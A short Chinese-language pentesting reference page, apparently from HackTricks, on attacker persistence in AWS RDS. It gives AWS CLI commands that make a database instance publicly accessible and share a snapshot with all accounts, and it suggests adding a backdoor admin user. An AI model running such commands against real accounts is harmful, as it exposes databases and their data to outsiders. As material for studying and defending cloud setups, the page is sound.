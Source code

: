 # AWS - RDS 持久性

{{#include ../../../banners/hacktricks-training.md}}

## RDS

有关更多信息，请查看：

{{#ref}}
../aws-services/aws-relational-database-rds-enum.md
{{#endref}}

### 使实例公开可访问：`rds:ModifyDBInstance`

具有此权限的攻击者可以**修改现有的 RDS 实例以启用公共可访问性**。
```bash
aws rds modify-db-instance --db-instance-identifier target-instance --publicly-accessible --apply-immediately
```
### 在数据库中创建管理员用户

攻击者可以**在数据库中创建一个用户**，即使主用户的密码被修改，他也**不会失去对数据库的访问**。

### 使快照公开
```bash
aws rds modify-db-snapshot-attribute --db-snapshot-identifier <snapshot-name> --attribute-name restore --values-to-add all
```
{{#include ../../../banners/hacktricks-training.md}}
